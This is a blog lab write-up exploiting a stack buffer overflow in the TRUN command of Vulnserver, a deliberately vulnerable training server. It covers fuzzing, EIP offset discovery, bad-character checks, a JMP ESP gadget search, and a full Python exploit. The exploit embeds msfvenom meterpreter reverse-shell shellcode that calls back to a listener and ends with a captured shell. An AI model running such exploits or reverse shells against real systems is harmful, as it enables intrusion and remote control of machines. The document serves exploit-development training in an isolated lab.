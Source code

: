 ```yaml
---
layout: doc 
title: Vulnserver-Trun
date: 2020-01-30
author: Mojo
categories: ["Vulnserver"]
---
```


# ** TRUN **

This is probably the best place to start on vulnserver.
The function is straight forward once you know what triggers the BOF.

I read vulnserver.c but you can also fuzz for these with tools like [spike](https://github.com/guilhermeferreira/spikepp/tree/master/SPIKE).

![trun-trigger](/mojo_blog/assets/pictures/bofs/vulnserver/trun-trigger.PNG)

##### "." is apparently the trigger

Using my little [fuzz script](https://gist.github.com/mojodojo101/9df5012a0928f824d158e50d91305435) i was able to find a break point quickly



```bash
root@kali:~/redteam/vulnserver# python fuzzer.py -h
usage: fuzzer.py [-h] -f FUNC_TO_FUZZ -l LENGTH_OF_BUFFER -i IP -p PORT
                 [-b BAD_CHARS]
                 {func} ...

bof-exploit

positional arguments:
  {func}               func ['fuzzbc', 'testeip', 'fuzzbp']

optional arguments:
  -h, --help           show this help message and exit
  -f FUNC_TO_FUZZ      function to fuzz for example "HELLO "
  -l LENGTH_OF_BUFFER  length of buffer
  -i IP                ip
  -p PORT              port
  -b BAD_CHARS         bad chars for example "0x10,0x0a,0x0d"
```

Lets send our first payload. Using the function fuzzbp (Fuzz breaking point). And specifying a -f for which function to fuzz on the server. In this case we want to fuzz "TRUN ." 


```bash
root@kali:~/redteam/vulnserver# python fuzzer.py -f "TRUN ." -l 4000 -i 192.168.138.139 -p 9999 func fuzzbp 
send payload to 192.168.138.139:9999 with total length of 4000 .
 the last 20 bytes of the buffer are:
 41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:0d:0a
```
This crashed the Server with a bunch of "A"'s
![crash-1](/mojo_blog/assets/pictures/bofs/vulnserver/trun-crash-1.PNG)

Like a [binary-search-algorithm](https://en.wikipedia.org/wiki/Binary_search_algorithm) i will just cut the length of our buffer in half now to home in on the crashing point.

We can quickly restart the server by pressing F3, selecting the correct binary and pressing 2 times F9.

```bash
    root@kali:~/redteam/vulnserver# python fuzzer.py -f "TRUN ." -l 4000 -i 192.168.138.139 -p 9999 func fuzzbp 
^CTraceback (most recent call last): 
  File "fuzzer.py", line 120, in <module>                   
    FUNCTION_MAP[args.func](args.func_to_fuzz,args.length_of_buffer,[args.bad_chars],args.ip,args.port)     
  File "fuzzer.py", line 62, in fuzzBreakPoint                  
    sendPayload(buffer,ip,port)      
  File "fuzzer.py", line 40, in sendPayload                 
    s.recv(1024)                                                                                                                                            
KeyboardInterrupt                                                             
root@kali:~/redteam/vulnserver# python fuzzer.py -f "TRUN ." -l 2000 -i 192.168.138.139 -p 9999 func fuzzbp 
send payload to 192.168.138.139:9999 with total length of 2000 .
 the last 20 bytes of the buffer are:                                                                                                                       
 41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:0d:0a    
root@kali:~/redteam/vulnserver#      
root@kali:~/redteam/vulnserver# python fuzzer.py -f "TRUN ." -l 3000 -i 192.168.138.139 -p 9999 func fuzzbp 
send payload to 192.168.138.139:9999 with total length of 3000 .                                                                                            
 the last 20 bytes of the buffer are:                                         
 41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:0d:0a
root@kali:~/redteam/vulnserver# python fuzzer.py -f "TRUN ." -l 2500 -i 192.168.138.139 -p 9999 func fuzzbp
...

```
Eventually we will find the last offset where we dont stop the programs execution is at 2006 bytes.

Now we can start looking for [EIP](http://unixwiz.net/techtips/win32-callconv-asm.html) using -f testeip

```bash
root@kali:~/redteam/vulnserver# python fuzzer.py -f "TRUN ." -l 2018 -i 192.168.138.139 -p 9999 func testeip
send payload to 192.168.138.139:9999 with total length of 2018 .
 the last 20 bytes of the buffer are:
 41:41:41:41:41:41:42:42:42:42:43:43:43:43:44:44:44:44:0d:0a
```
![trun-crash-2](/mojo_blog/assets/pictures/bofs/vulnserver/trun-crash-1.PNG)

We overwrote EIP with 4* 0x44 which corresponds to the bytes 2013-2016 since the last two bytes are our \r\n.

Now we should check for bad chars by using the -f fuzzbc (Fuzz bad characters) function.

```bash
root@kali:~/redteam/vulnserver# python fuzzer.py -f "TRUN ." -l 2018 -i 192.168.138.139 -p 9999 func fuzzbc
send payload to 192.168.138.139:9999 with total length of 2274 .
 the last 20 bytes of the buffer are:
 ee:ef:f0:f1:f2:f3:f4:f5:f6:f7:f8:f9:fa:fb:fc:fd:fe:ff:0d:0a
```

![trun-bc-1](/mojo_blog/assets/pictures/bofs/vulnserver/trun-bc-1.PNG)

The first byte in our bad chars fuzz buffer "0x00" stopped the server from receiving more information.
We add the -b "0x00" flag to blacklist that byte.

```
python fuzzer.py -f "TRUN ." -l 2018 -i 192.168.138.139 -p 9999 -b "0x00" func fuzzbc
```
Now it seems like the fuzzing chars all went through 

![trun-gc-1](/mojo_blog/assets/pictures/bofs/vulnserver/trun-gc-1.PNG)


![trun-gc-2](/mojo_blog/assets/pictures/bofs/vulnserver/trun-gc-2.PNG)

We can check this by subtracting the amount of bad chars we removed from our 256-char buffer. We only removed 1 char so our buffer should be 255 bytes long.
And indeed our buffer stops exactly at 0x23dfadf.

```bash
     printf "%x" $(($(echo $((0x023DF9E0)))+255))
     23dfadf
```

Search for a gadget that lets us jump to our shellcode. Since i turned DEP and ASLR off for this exercise we can just search for a JMP ESP statement. Using msf-nasm-shell or my personal favorite rasm2 we can find the right opcode for this.

```bash
    rasm2 -a x86 -b 32  "jmp esp"
    #returns ffe4
```
Use "!mona modules" in Immunity-debugger-console to find modules which have little protection. vulnserver.exe and essfunc.dll seem like a good source of gadgets.
```cmd
    !mona modules
```

![mona-modules](/mojo_blog/assets/pictures/bofs/vulnserver/trun-mona-modules.PNG)

Search for our jmp esp in the modules.
```cmd
    !mona find -s "\xff\xe4" -m essfunc.dll
```

![mona-jmp-esp](/mojo_blog/assets/pictures/bofs/vulnserver/trun-mona-jmp-esp.PNG)

Great 0x625011af seems like a good choice for our exploit since it does not contain any bad chars ("0x00").
This means we have all the pieces to craft our script.

To recap we need;
1. "Trun ." to trigger the exploit. (total length 6)
2. 2006 bytes of random chars which are not 0s (total length 2012)
3. EIP, which will be 0x625011af reversed since windows uses little endian for everything but Networking 
-> 0xaf115062
4. Some NOP aka 0x90 to give our exploit space on the stack

#### The final exploit:
```python
import sys,socket
host="192.168.138.139"
port=9999

#msfvenom -p windows/meterpreter/reverse_tcp -f python LHOST=192.168.138.138 LPORT=443 > shellcode

buf =  b""
buf += b"\xd9\xc3\xb8\x0a\xe4\xfe\x67\xd9\x74\x24\xf4\x5f\x33"
buf += b"\xc9\xb1\x56\x83\xef\xfc\x31\x47\x14\x03\x47\x1e\x06"
buf += b"\x0b\x9b\xf6\x44\xf4\x64\x06\x29\x7c\x81\x37\x69\x1a"
buf += b"\xc1\x67\x59\x68\x87\x8b\x12\x3c\x3c\x18\x56\xe9\x33"
buf += b"\xa9\xdd\xcf\x7a\x2a\x4d\x33\x1c\xa8\x8c\x60\xfe\x91"
buf += b"\x5e\x75\xff\xd6\x83\x74\xad\x8f\xc8\x2b\x42\xa4\x85"
buf += b"\xf7\xe9\xf6\x08\x70\x0d\x4e\x2a\x51\x80\xc5\x75\x71"
buf += b"\x22\x0a\x0e\x38\x3c\x4f\x2b\xf2\xb7\xbb\xc7\x05\x1e"
buf += b"\xf2\x28\xa9\x5f\x3b\xdb\xb3\x98\xfb\x04\xc6\xd0\xf8"
buf += b"\xb9\xd1\x26\x83\x65\x57\xbd\x23\xed\xcf\x19\xd2\x22"
buf += b"\x89\xea\xd8\x8f\xdd\xb5\xfc\x0e\x31\xce\xf8\x9b\xb4"
buf += b"\x01\x89\xd8\x92\x85\xd2\xbb\xbb\x9c\xbe\x6a\xc3\xff"
buf += b"\x61\xd2\x61\x8b\x8f\x07\x18\xd6\xc7\xe4\x11\xe9\x17"
buf += b"\x63\x21\x9a\x25\x2c\x99\x34\x05\xa5\x07\xc2\x1c\xa1"
buf += b"\xb7\x1c\xa6\xa2\x49\x9d\xd6\xeb\x8d\xc9\x86\x83\x24"
buf += b"\x72\x4d\x54\xc8\xa7\xfb\x5e\x5e\x88\x53\xd4\x14\x60"
buf += b"\xa1\xe9\x29\xca\x2c\x0f\x79\x7c\x7e\x80\x3a\x2c\x3e"
buf += b"\x70\xd3\x26\xb1\xaf\xc3\x48\x18\xd8\x6e\xa7\xf4\xb0"
buf += b"\x06\x5e\x5d\x4a\xb6\x9f\x48\x36\xf8\x14\x78\xc6\xb7"
buf += b"\xdc\x09\xd4\xa0\xba\xf1\x24\x31\x2f\xf1\x4e\x35\xf9"
buf += b"\xa6\xe6\x37\xdc\x80\xa8\xc8\x0b\x93\xaf\x37\xca\xa5"
buf += b"\xc4\x0e\x58\x89\xb2\x6e\x8c\x09\x43\x39\xc6\x09\x2b"
buf += b"\x9d\xb2\x5a\x4e\xe2\x6e\xcf\xc3\x77\x91\xb9\xb0\xd0"
buf += b"\xf9\x47\xee\x17\xa6\xb8\xc5\x2b\xa1\x46\x9b\x03\x0a"
buf += b"\x2e\x63\x14\xaa\xae\x09\x94\xfa\xc6\xc6\xbb\xf5\x26"
buf += b"\x26\x16\x5e\x2e\xad\xf7\x2c\xcf\xb2\xdd\xf1\x51\xb2"
buf += b"\xd2\x29\x62\xc9\x9b\xce\x83\x2e\xb2\xaa\x84\x2e\xba"
buf += b"\xcc\xb9\xf8\x83\xba\xfc\x38\xb0\xb5\x4b\x1c\x91\x5f"
buf += b"\xb3\x32\xe1\x75"
#addr of JMP ESP = 0x625011af
exploitbuffer="TRUN ."+"A"*2006+"\xaf\x11\x50\x62"+"\x90"*16+buf+"\r\n"
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((host,port))
s.recv(1024)
s.send(exploitbuffer)
sys.exit(0)
```

Now to run the exploit:
```bash
    msfconsole
    use exploit/multi/handler
    set lhost 127.0.0.1
    set lport 443
    run
```
and in another terminal

```bash
    python exploit.py
```

And we get a nice shell back
```bash
meterpreter > shell
Process 3720 created.
Channel 2 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\IEUser\Desktop\vulnserver>whoami
whoami
iewin7\ieuser

C:\Users\IEUser\Desktop\vulnserver>    

```

